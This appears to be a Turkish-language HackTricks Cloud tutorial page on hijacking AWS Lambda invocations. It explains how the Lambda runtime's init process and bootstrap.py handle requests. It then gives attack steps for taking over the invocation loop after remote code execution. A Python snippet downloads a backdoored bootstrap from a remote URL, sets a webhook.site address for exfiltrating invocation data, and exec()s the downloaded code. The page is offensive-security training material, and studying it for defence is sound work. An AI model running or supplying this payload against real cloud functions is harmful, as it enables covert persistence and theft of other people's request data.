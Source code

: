 # AWS - Lambda İsteklerini Çal

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lambda Akışı

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**, **init** sürecine **çağrılar** gönderen konteyner dışındaki bir süreçtir.
2. Init süreci, bazı ilginç uç noktaları açığa çıkaran **9001** portunu dinler:
* **`/2018-06-01/runtime/invocation/next`** – bir sonraki çağrı olayını al
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – çağrı için işleyici yanıtını döndür
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – bir yürütme hatası döndür
3. **bootstrap.py**, init sürecinden çağrıları alan bir döngüye sahiptir ve bunları işlemek için kullanıcı kodunu çağırır (**`/next`**).
4. Son olarak, **bootstrap.py** init'e **yanıtı** gönderir.

Bootstrap'ın kullanıcı kodunu bir modül olarak yüklediğini unutmayın, bu nedenle kullanıcı kodu tarafından gerçekleştirilen herhangi bir kod yürütmesi aslında bu süreçte gerçekleşmektedir.

## Lambda İsteklerini Çalmak

Bu saldırının amacı, kullanıcı kodunun, savunmasız isteği işleyen **`bootstrap.py`** süreci içinde kötü niyetli bir **`bootstrap.py`** süreci çalıştırmasını sağlamaktır. Bu şekilde, **kötü niyetli bootstrap** süreci, istekleri işlemek için **init süreciyle** **iletişim kurmaya** başlayacak, bu sırada **meşru** bootstrap, kötü niyetli olanı çalıştırarak **tuzağa düşecektir**, böylece init sürecine istek istemeyecektir.

Bu, kullanıcı kodunun meşru **`bootstrap.py`** süreci tarafından yürütüldüğü için basit bir görevdir. Böylece saldırgan:

* **Init sürecine mevcut çağrının sahte bir sonucunu gönderebilir**, böylece init, bootstrap sürecinin daha fazla çağrı beklediğini düşünebilir.
* **`/${invoke-id}/response`** adresine bir istek gönderilmelidir.
* Invoke-id, meşru **`bootstrap.py`** sürecinin yığınından [**inspect**](https://docs.python.org/3/library/inspect.html) python modülünü kullanarak (burada [önerildiği gibi](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) veya sadece tekrar **`/2018-06-01/runtime/invocation/next`** adresine istekte bulunarak elde edilebilir (burada [önerildiği gibi](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Bir sonraki çağrıları yönetecek kötü niyetli **`boostrap.py`**'yi çalıştırın.
* Gizlilik amacıyla, lambda çağrı parametrelerini saldırganın kontrolündeki bir C2'ye göndermek ve ardından istekleri normal şekilde işlemek mümkündür.
* Bu saldırı için, **`bootstrap.py`**'nin orijinal kodunu sistemden veya [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) üzerinden almak, kötü niyetli kodu eklemek ve mevcut lambda çağrısından çalıştırmak yeterlidir.

### Saldırı Adımları

1. Bir **RCE** açığı bulun.
2. **Kötü niyetli** bir **bootstrap** oluşturun (örneğin [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)).
3. Kötü niyetli bootstrap'ı **çalıştırın**.

Bu eylemleri kolayca gerçekleştirebilirsiniz:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Daha fazla bilgi için [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher) adresini kontrol edin.

## Referanslar

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
